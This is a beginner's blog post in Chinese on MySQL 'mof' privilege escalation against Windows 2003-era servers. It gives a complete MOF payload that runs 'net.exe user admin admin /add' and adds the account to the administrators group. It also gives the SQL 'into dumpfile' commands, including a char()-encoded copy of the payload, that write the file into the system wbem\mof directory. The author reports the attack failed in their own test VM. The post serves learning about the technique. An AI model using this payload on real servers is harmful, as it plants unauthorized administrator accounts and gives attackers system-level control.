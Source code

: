```yaml
---
layout: post
title: mof提权
key: 20180620
tags: MySQL提权
---
```


第一次接触提权，先看了个最简单的，哈哈哈哈，看了几个视频和文章，然后整理了一下，估计很多不对的地方，等真正了解了就回来改掉。

<!--more-->

## 原理  
mof是Windows系统的一个文件，位于c:\windows\system32\wbem\mof\nullevt.mof，叫做托管对象格式，
它的作用是每隔5秒，就会去监控进程的创建和死亡。mof提权的简单利用过程就是，拥有了MySQL的root权限
后，使用root权限去执行上传操作，将我们重新改写过的mof文件上传，之后，这个文件会被服务器每隔5秒
以system权限执行。这个改写的mof中，有一段是vbs脚本，这个vbs大多数是cmd的添加管理员用户的命令。
  
  
## 为什么可以提权？  
可以提权的根本原因是因为有一个更高权限的线程执行了命令。我们这里nullevt.mof文件的加载过程由system
用户执行，因此我们可以最高把用户的权限提升到system。  
  
  
## 利用条件  
- Windows版本<=2003  
- c:\windows\system32\wbem\mof目录可写入  
- 数据库允许外连，且已知root账号密码  
  
 
## 利用代码  
```
# pragma namespace("\\.\root\subscription")

instance of **EventFilter as $EventFilter{    EventNamespace = "Root\Cimv2";    Name  = "filtP2";    Query = "Select \* From **InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```
其中的关键就在于第14行的“net.exe user admin admin /add”，这句是用来创建一个用户名为admin，密码为admin的用户，创建成功后，再将这句命令改为
“net.exe localgroup administrators admin /add”后，再次上传，达到创建admin用户并将其加入administrators组的目的。  
  
## 利用过程  
  
### 拥有网站webshell时  
如果已经得到了该网站的webshell，那么可以将nullevt.mof文件上传到c盘的的可写目录xxx，然后执行下面的SQL命令即可  
>select load_file('c:\xxx\nullevt.mof') into dumpfile'c:\windows\system32\wbem\mof\nullevt.mof';  
  
这里可以看下dumpfile与outfile的区别，对于outfile来说，into outfile会自动添加换行符等操作，适用于文本文件，因为会产生冗余数据，会导致我们的命令执行
失败。而into dumpfile是将文件以二进制的方式写入，因此这里我们用into dumpfile。  
  
### 未拥有网站webshell  
对于没有网站webshell的情况，我们可以采取连接数据库后直接写入的方式，将代码转换为ASCII码后，直接传入。  
```
select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,
115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,
116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,
115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,
108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,
115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,
32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,
97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,
97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,
32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,
116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,
78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,
110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,
34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,
46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,
117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,
59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,
110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,
13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,
110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile  'c:\windows\system32\wbem\mof\nullevt.mof';
```  

  
## 总结  
emmmmm，这估计现在应该很少可以成功了，利用的条件都很落后了，感觉应该不会存在了...我在自己的虚拟机里面复现并没有成功，尴尬，我的虚拟机那个
文件夹可以写入，但是写入后会自动创建个名字叫做bad的文件夹，然后将我的nullevt.mof移动到里面去，这是什么原因呢，暂时还不知道，网上搜了下，也
没看到什么解释，等找个时间问问dalao，在来补充吧...  
  
>离职了，想找新工作了，加油吧!!!! >_<
